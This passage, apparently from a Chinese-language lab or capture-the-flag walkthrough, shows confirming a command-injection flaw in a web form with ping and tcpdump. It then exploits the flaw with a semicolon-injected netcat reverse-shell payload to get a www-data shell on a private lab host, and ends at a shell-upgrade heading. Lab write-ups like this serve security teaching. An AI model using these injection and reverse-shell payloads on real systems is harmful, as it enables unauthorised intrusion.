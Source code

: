 为验证命令注入，我们在 Web 表单中输入攻击者的 IP 地址 `192.168.205.128`，并期望目标服务器执行 `ping 192.168.205.128`。同时，在攻击者机器上启动 `tcpdump` 监听 ICMP 流量。

```bash
┌──(kali㉿kali)-[~/test]
└─$ sudo tcpdump -A -n icmp
# -A: 以 ASCII 打印报文内容
# -n: 不解析主机名
# icmp: 只捕获 ICMP 协议流量
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), snapshot length 262144 bytes
```

![](https://7r1umphk.github.io/image/20250411202357686.png)

在 Web 页面提交 IP 后，`tcpdump` 捕获到来自目标 IP 的 ICMP 请求：

```bash
20:23:39.932006 IP 192.168.205.185 > 192.168.205.128: ICMP echo request, id 1016, seq 1, length 64
# ... (其他 ICMP 请求和响应) ... 
```

这证实了 Web 应用确实执行了用户输入的命令（至少是 `ping`），存在命令注入漏洞。

### 2.2. 漏洞利用 (Exploitation - Reverse Shell)

利用命令注入点执行一个反向 Shell Payload。使用分号 `;` 作为命令分隔符，先结束可能存在的 `ping` 命令，然后执行 `netcat` 命令将目标服务器的 `/bin/bash` Shell 反弹回攻击者机器。

* **Payload:**

  ```
  ;nc 192.168.205.128 8888 -e /bin/bash
  ```

  (注意：`;` 确保 `nc` 命令独立执行。`-e /bin/bash` 指定连接成功后执行的程序。)

* **攻击者监听:** 在 Kali 上使用 `netcat` 监听 8888 端口。

  ```bash
  ┌──(kali㉿kali)-[~/test]
  └─$ nc -lvnp 8888
  # -l: 监听模式
  # -v: 详细输出
  # -n: 不解析主机名
  # -p 8888: 指定监听端口
  listening on [any] 8888 ...
  ```

* **获取 Shell:** 在 Web 页面提交 Payload 后，攻击者的 `nc` 监听器接收到连接。

  ```bash
  connect to [192.168.205.128] from (UNKNOWN) [192.168.205.185] 56366
  # 此时已获得目标服务器 Shell，用户为 www-data
  ```

  成功获取了运行 Web 服务器的用户 (`www-data`) 的 Shell。

### 2.3. Shell 升级 (Shell Upgrade)
